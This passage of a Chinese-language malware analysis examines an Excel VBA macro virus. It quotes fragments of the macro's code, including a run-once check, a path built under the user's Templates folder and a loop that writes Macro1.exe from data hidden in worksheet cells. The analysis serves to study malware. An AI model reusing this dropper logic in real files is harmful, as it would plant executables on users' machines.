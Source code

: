 ```
Selection.Cut
Range("i1001").Select
ActiveSheet.Paste
Cells(1, 1).Select
End Sub

```

函数运行结果为，在 1001 行往下，依次每行填入数据。

![p5](http://drops.javaweb.org/uploads/images/d2df82b688910a8aad7b6736553a08f10c797f44.jpg)

### 2、对是否运行过一次做检查

```
If Cells(2, 1) <> "" Then
GoTo skyhigh
End If

```

当运行过一次之后， Cells(2,1) 表格会被写入值，会在这里进入语句 Then ，执行 “Goto skyhigh” 语句， “skyhigh” 标记定位在函数尾部，即执行该语句后会退出该函数。

### 3

从代码意图猜测，病毒作者想在`%userprofile% AppDataRoamingMicrosoftTemplates`生成一个名为Macro1.vbs 的vbs文件 ,

```
Dim Fnslr1 As String
    Dim Fnslr2 As String
    Fnslr2 = Environ(Sh2.Cells(998, 40)) & "AppDataRoamingMicrosoftTemplatesMacro1.vbs"
    ChDrive (Fnslr2)
If Dir(Fnslr2) = "" Then
Else
End If

```

其中，病毒拼凑生成文件的目录路径时，从表格 2 的Cells(998, 40) 中读取 ，该值为环境变量值 userprofile.

![p6](http://drops.javaweb.org/uploads/images/e0a7a36b6ac3617a55ac46ace9eba743c043bad7.jpg)

只是，病毒作者并没有继续完善相关代码。实际测试运行样本也并没有生成该文件，猜测可能作者后续加入该功能，或者该功能已经被取消。

### 4

在`%serprofile% AppDataRoamingMicrosoftTemplates`目录生成可执行文件 Macro1.exe，

```
Dim i As Double
i = 1000
    Fnslr1 = "Macro1.exe"
    Fnslr2 = Environ(Sh2.Cells(998, 40)) & "AppDataRoamingMicrosoftTemplates"
    Fnslr3 = FreeFile()
    Open Fnslr1 For Binary As Fnslr3
    Do While Sh2.Cells(i, 9) <> ""
            Fnslr11 = Sh2.Cells(i, 9)
        If (Fnslr9 = True) Then
            Fnslr8 = 1
            Do While (Fnslr8 < Len(Fnslr11))
                Fnslr6 = Sh2.Cells(997, 40) & Mid(Fnslr11, Fnslr8, 3)
                Put #Fnslr3, , Fnslr6 
                Fnslr8 = Fnslr8 + 3
            Loop
        End If
        If Fnslr9 = False Then
```